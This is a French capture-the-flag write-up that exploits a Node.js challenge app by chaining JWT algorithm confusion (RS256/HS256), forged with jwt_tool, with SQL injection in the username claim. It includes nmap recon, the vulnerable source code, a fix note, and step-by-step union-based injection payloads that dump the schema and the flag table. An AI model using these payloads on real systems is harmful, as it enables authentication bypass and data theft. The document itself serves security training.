 # recon
```
└─$ nmap 94.237.53.3 -p 33076 -sVC -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 10:59 GMT
Nmap scan report for 94-237-53-3.uk-lon1.upcloud.host (94.237.53.3)
Host is up (0.12s latency).

PORT      STATE SERVICE VERSION
33076/tcp open  http    Node.js Express framework
| http-title: Under Construction - Login
|_Requested resource was /auth

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.34 seconds
```

# code source analyze
## DBHelper.js
```node
    getUser(username){
        return new Promise((res, rej) => {
            db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {
                if (err) return rej(err);
                res(data);
            });
        });
   }
```
La ligne suivante utilise une interpolation de chaîne pour insérer le nom d'utilisateur directement dans la requête SQL :
``db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {``
Si l'utilisateur fournit un nom d'utilisateur malveillant, il peut injecter du code SQL arbitraire dans la requête. Par exemple, un utilisateur pourrait entrer `admin' OR '1'='1` comme nom d'utilisateur, ce qui transformerait la requête en :
`SELECT * FROM users WHERE username = 'admin' OR '1'='1'`
Cela ferait en sorte que la condition `OR '1'='1'` soit toujours vraie, renvoyant potentiellement toutes les entrées de la table des utilisateurs.

Je vais donc chercher dans quel fichier la fonction *getUser* est utilisée.
## route/index.js
```node
router.get('/', AuthMiddleware, async (req, res, next) => {
    try{
        let user = await DBHelper.getUser(req.data.username);
        if (user === undefined) {
            return res.send(`user ${req.data.username} doesn't exist in our database.`);
        }
        return res.render('index.html', { user });
    }catch (err){
        return next(err);
    }
});
```
1. **Middleware d'authentification** : `AuthMiddleware` est utilisé pour s'assurer que l'utilisateur est authentifié avant d'accéder à cette route.
2. **Récupération de l'utilisateur** : `DBHelper.getUser(req.data.username)` est utilisé pour obtenir les informations de l'utilisateur à partir de la base de données.
3. **Vérification de l'utilisateur** : Si l'utilisateur n'existe pas, une réponse indiquant que l'utilisateur n'existe pas dans la base de données est envoyée.
4. **Rendu de la vue** : Si l'utilisateur existe, la vue `index.html` est rendue avec les données de l'utilisateur.

Les middleware sont généralements utilisé pour intercepter les réquètes avant de les passées à l'application.
Je vais donc l'analysé.
## AuthMiddleware.js
```node
[***]
if (req.cookies.session === undefined) return res.redirect('/auth');
let data = await JWTHelper.decode(req.cookies.session);
req.data = {username: data.username}
next();
[***]
```
1. **Vérification du cookie de session** :
    - Si le cookie de session n'existe pas (`req.cookies.session` est `undefined`), l'utilisateur est redirigé vers la page d'authentification (`/auth`).
2. **Décodage du JWT** :
    - Si le cookie de session existe, il est décodé et enrégister dans la variable `data` à l'aide de `JWTHelper.decode`.
3. **Stockage des données de l'utilisateur** :
    - Les informations décodées (dans ce cas, le nom d'utilisateur) sont stockées dans `req.data`.
La partie `data` de la requête est donc modifié en créant un attribut `username` qui  a pour valeur le username récupérer dans le cookie (data.username).

Analysons la fonction *JWTHelper.decode*
## JWTHelper.js
```javascript
const fs = require('fs');
const jwt = require('jsonwebtoken');

// Lecture des clés privée et publique à partir de fichiers
const privateKey = fs.readFileSync('./private.key', 'utf8');
const publicKey  = fs.readFileSync('./public.key', 'utf8');

module.exports = {
    // Fonction pour signer les données et créer un jeton JWT
    async sign(data) {
        // Ajout de la clé publique aux données
        data = Object.assign(data, { pk: publicKey });
        // Création et retour du jeton signé avec l'algorithme RS256
        return await jwt.sign(data, privateKey, { algorithm: 'RS256' });
    },
    
    // Fonction pour vérifier et décoder un jeton JWT
    async decode(token) {
        // Vérification et décodage du jeton avec les algorithmes RS256 et HS256
        return await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] });
    }
};

```
Il y a une vulnérabilité à ce niveau
```node
[***]
async decode(token) { 
	return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
[***]
```
La vulnérabilité réside dans le fait que deux algorithmes de vérification sont autorisés (`RS256` et `HS256`). Voici pourquoi cela peut être problématique :
1. **Algorithmes différents** :
    - `RS256` est un algorithme asymétrique qui utilise une paire de clés publique/privée.
    - `HS256` est un algorithme symétrique qui utilise une seule clé partagée pour la signature et la vérification.
2. **Attaque possible** :
    - Un attaquant pourrait exploiter cette configuration en forgeant un jeton JWT signé avec `HS256`, en utilisant la clé publique (qui est souvent accessible publiquement) comme clé partagée. Cela permettrait à l'attaquant de créer un jeton JWT valide sans avoir accès à la clé privée.
### Solution
Pour résoudre cette vulnérabilité, vous devez restreindre les algorithmes de vérification à ceux que vous utilisez réellement pour signer vos jetons. Si vous utilisez uniquement `RS256` pour signer les jetons, vous devez spécifier uniquement cet algorithme lors de la vérification.

# Exploitation
Pour que l'injection puisse être effectuer il faudrait pouvoir insérer des injections sql dans le token et créer un jeton JWT valide avec la clé publique.
## création d'un jeton valide
Je vais donc décoder mon token (généré après inscription sur l'application web) avec le décodeur de cookie JWT :  [jwt.io](https://jwt.io/)
![Pasted image 20240518150314](https://github.com/Zelofane22/CTF-Challenge/assets/80983303/1432cdaf-1692-4a11-a5fa-ef2b8e675266)

Il existe un outil qui permet d'exploiter un token [jwt](https://github.com/ticarpi/jwt_tool)
```bash
python3 jwt_tool.py <jwt_token> -X k -pk ./pubkey.pem -I -pc username -pv dine

```
* -X k : exploitation de confusion d'algorithme (permet de signer le token avec la clé publique)
	* -pk : pour passer la clé publique récupérer dans le payload 
*Attention : copier la clé publique dans le bon format en supprimant les '\\n')*
```./pubkey.pem
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
```
* -I : pour l'injection (modification du header ou du payload
	* -pc : clé
	* -pv : valeur

Résultat
![Pasted image 20240518192128](https://github.com/Zelofane22/CTF-Challenge/assets/80983303/b21f6e5c-d06b-4ec9-a615-212b12721c75)

Il suffit de modifier le token dans la requête avec burpsuite et on a un résultat qui correspond à cette partie du fichier *routes/index.js*
```node
if (user === undefined) {
  return res.send(`user ${req.data.username} doesn't exist in our database.`);
}
```
![Pasted image 20240518192956](https://github.com/Zelofane22/CTF-Challenge/assets/80983303/69f1510e-cd2c-49f4-8515-f8d61571f78b)

Maintenant que nous pouvons interagir librement avec la base de données nous allons passer à la phase d'injection sql.
## injection sql
### Découverte du nombre de colonnes
A la place de `dine` je vais mettre `zelofane' order by 2-- -` puis 3, 4 ainsi de suite jusqu'a avoir une erreur de type *out of range*.
```bash
python3 jwt_tool.py <jwt_token> -X k -pk ./pubkey.pem -I -pc username -pv "zelofane' order by 4-- -"
```
![Pasted image 20240518200546](https://github.com/Zelofane22/CTF-Challenge/assets/80983303/f117dd2a-8284-41b4-8871-5602f5d72a16)


Nous avons 3 colonnes. Je vais vérifier le numéro de colonne des noms d'utilisateurs avec le payload : `' union select 1,2,3-- -`
![Pasted image 20240518203225](https://github.com/Zelofane22/CTF-Challenge/assets/80983303/7b8577c4-375c-4f18-93f7-72c63889e49b)

La colonne des nom d'utilisateurs est donc le numéro 2.

Maintenant je vais vérifier la structure de la base de données avec : `' union select 1,sql,3 from sqlite_master-- -`
![Pasted image 20240518211038](https://github.com/Zelofane22/CTF-Challenge/assets/80983303/9f0b562a-deab-458d-ae8d-f148e2cd651c)

On a donc le nom de la table et des colonnes
Il ne reste plus qu'a récupérer les informations de la table : `' union select 1,GROUP_CONCAT(top_secret_flaag),3 FROM flag_storage-- -`

☻Voila, vous avez le flag.
